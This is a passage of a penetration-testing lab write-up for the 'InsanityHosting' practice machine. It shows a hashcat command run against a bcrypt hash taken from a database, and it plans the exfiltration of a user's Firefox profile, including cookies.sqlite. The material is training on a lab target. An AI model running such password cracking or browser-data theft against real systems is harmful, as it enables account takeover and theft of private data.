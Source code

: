 ```bash
+----+----------+--------------------------------------------------------------+-----------------------------+
3 rows in set (0.00 sec)
```

### Attempt to crack nicholas's hash

> `15` minutes passed without successful result, the hash is unlikely to be crackable
{: .prompt-tip }

```bash
┌──(bravosec㉿fsociety)-[~/Offsec/pg/play/InsanityHosting]
└─$ cat loot/mysql_monitoring_uesrs.hash
nicholas:$2y$12$4R6JiYMbJ7NKnuQEoQW4ruIcuRJtDRukH.Tvx52RkUfx5eloIw7Qe

┌──(bravosec㉿fsociety)-[~/Offsec/pg/play/InsanityHosting]
└─$ cp loot/mysql_monitoring_uesrs.hash /media/sf_Kali
```

```bash
cd C:\Users\X\Documents\Sec\hashcat-6.2.6\; hashcat.exe H:\VM-Share\Kali\*.hash H:\VM-Share\Kali\rockyou.txt --user -m 3200
```

![](/assets/obsidian/c0d0a087f6676b959af015f93db63984.png)

### Harvesting - Exfiltrate firefox profile

```bash
[elliot@insanityhosting ~]$ ls -la
total 41276
drwx------. 5 elliot elliot      185 Jun 16 17:48 .
drwxr-xr-x. 7 root   root         76 Aug 16  2020 ..
lrwxrwxrwx. 1 root   root          9 Aug 16  2020 .bash_history -> /dev/null
-rw-r--r--. 1 elliot elliot       18 Apr  1  2020 .bash_logout
-rw-r--r--. 1 elliot elliot      193 Apr  1  2020 .bash_profile
-rw-r--r--. 1 elliot elliot      231 Apr  1  2020 .bashrc
drwx------  2 elliot elliot       60 Jun 16 17:06 .gnupg
-rw-r--r--  1 elliot elliot       33 Jun 16 16:14 local.txt
drwx------. 5 elliot elliot       66 Aug 16  2020 .mozilla
-rw-------  1 elliot elliot      148 Jun 16 17:40 .mysql_history
drwx------. 2 elliot elliot       48 Jun 16 17:57 .ssh
```

- There's a lot of data in `~/.mozilla/` (Firefox profile folder), which means it is worth to exfiltrate

```bash
[elliot@insanityhosting ~]$ find .mozilla/ -ls
1718505    0 drwx------   5 elliot   elliot         66 Aug 16  2020 .mozilla/
9460204    0 drwx------   4 elliot   elliot        102 Aug 16  2020 .mozilla/firefox
9460245    4 drwx------   8 elliot   elliot       4096 Jun 16 17:06 .mozilla/firefox/esmhp32w.default-default
9460249    0 -rw-rw-r--   1 elliot   elliot          0 Aug 16  2020 .mozilla/firefox/esmhp32w.default-default/.parentlock
9460251    4 -rw-------   1 elliot   elliot        167 Aug 16  2020 .mozilla/firefox/esmhp32w.default-default/compatibility.ini
9460253   96 -rw-r--r--   1 elliot   elliot      98304 Aug 16  2020 .mozilla/firefox/esmhp32w.default-default/permissions.sqlite
9460255  128 -rw-r--r--   1 elliot   elliot     524288 Aug 16  2020 .mozilla/firefox/esmhp32w.default-default/cookies.sqlite
26511121   12 drwx------   2 elliot   elliot       8192 Aug 16  2020 .mozilla/firefox/esmhp32w.default-default/extensions
26511122  488 -rw-r--r--   1 elliot   elliot     496871 Aug 16  2020 .mozilla/firefox/esmhp32w.default-default/extensions/langpack-ga-IE@firefox.mozilla.org.xpi
```